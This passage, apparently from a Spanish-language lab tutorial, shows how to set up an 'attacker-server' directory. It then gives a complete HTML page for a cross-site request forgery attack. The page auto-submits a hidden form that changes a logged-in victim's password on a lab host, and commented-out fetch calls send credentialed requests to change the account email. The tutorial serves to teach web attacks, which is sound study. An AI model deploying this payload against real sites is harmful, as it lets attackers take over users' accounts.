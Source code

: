 - **`mkdir attack-server`:** *Crea un directorio llamado `attack-server`. El comando `mkdir` es utilizado para crear directorios.*
- **`touch attack-server/index.html`:** *Crea un archivo vacío llamado `index.html` dentro del directorio `attack-server`. El comando `touch` se utiliza para crear archivos vacíos o actualizar la fecha y hora de modificación de un archivo existente.*

---

### **2. Contenido del archivo HTML**

*Dentro del archivo `index.html`, colocamos el siguiente código HTML:*

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Attacker website</title>
</head>
<body>
  <div>
    <h1>
      Some nice website
    </h1>
    <form name="form" action="http://172.17.0.2:80/change-password" method="POST">
      <input type="hidden" name="password" value="12345678">
    </form>
  </div>
  <script>
    document.form.submit();

    // fetch('http://172.17.0.2:80/change-password', {
    //   method: 'POST',
    //   credentials: 'include',
    //   mode: 'no-cors',
    //   headers: {
    //     'Content-Type': 'application/x-www-form-urlencoded',
    //   },
    //   body: 'email=hacker@hack.com',
    // })
    //   .then(res => console.log(res.status))
    //   .catch(err => console.log(err));

    // fetch('http://172.17.0.2:80/change-password', { credentials: 'include' })
    //   .then(res => res.text())
    //   .then(html => console.log(html))
    //   .catch(err => console.log(err));
  </script>
</body>
</html>
```

